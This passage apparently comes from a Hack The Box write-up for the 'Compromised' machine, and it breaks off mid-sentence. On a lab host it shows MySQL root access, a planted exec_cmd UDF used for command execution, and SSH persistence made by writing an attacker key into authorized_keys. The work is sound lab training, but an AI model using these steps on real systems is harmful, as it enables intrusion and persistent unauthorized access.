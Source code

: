 ```
www-data@compromised:/var/www/html/shop/includes$ mysql -u root --password=changethis -e "use mysql; select * from func"
mysql: [Warning] Using a password on the command line interface can be insecure.
name    ret     dl      type
exec_cmd        0       libmysql.so     function
```
So i could use this exec_cmd function to execute commands as mysql user:
```
mysql -u root --password=changethis -e "select exec_cmd('id')"
mysql: [Warning] Using a password on the command line interface can be insecure.
exec_cmd('id')
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```
I ran command  to add my ssh pub key to mysql user `authorized_key` 

```
www-data@compromised:/var/www/html/shop/vqmod/xml$ mysql -u root --password=changethis -e "select exec_cmd('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBXjmIwusvvlI+UM3l3q0IXHCERsiVHbQYaxBPqtZzzo sh4ck@kali > ~/.ssh/authorized_keys')"
mysql: [Warning] Using a password on the command line interface can be insecure.
exec_cmd('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBXjmIwusvvlI+UM3l3q0IXHCERsiVHbQYaxBPqtZzzo sh4ck@kali > ~/.ssh/authorized_keys')
\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```
so i had ssh access as mysql user :

```
sh4ck@kali:~/Desktop/compromised_htb/shop$ ssh mysql@compromised.htb -i id_key 
The authenticity of host 'compromised.htb (10.10.10.207)' can't be established.
ECDSA key fingerprint is SHA256:eYvjeWOH3lYrex1T0a/7BQsAv9L4YbZem1T0BGWjtVE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'compromised.htb,10.10.10.207' (ECDSA) to the list of known hosts.
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.2
mysql@compromised:~$
```
I started new enumeration and found `strace-log.dat`. Grepping for passwords there was an interesting finding from mysql:
